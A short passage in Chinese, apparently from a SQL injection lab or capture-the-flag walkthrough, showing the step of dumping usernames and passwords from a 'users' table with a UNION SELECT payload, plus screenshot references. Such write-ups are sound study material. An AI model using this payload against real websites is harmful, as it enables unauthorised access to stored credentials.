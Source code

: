 ![图片 19](assets/%E5%9B%BE%E7%89%87%2019.png) 

### 2.6.3. **爆出账号密码**

这里是根据题目的提示是存在`username`与`password`，并且是从`users`表中获得。

这里不在确定字段位置是因为只用两个字段，并且官方已经提示了，就不进行测试了。

```
payload：' union select username,password from users--
```

![图片 20](assets/%E5%9B%BE%E7%89%87%2020.png) 
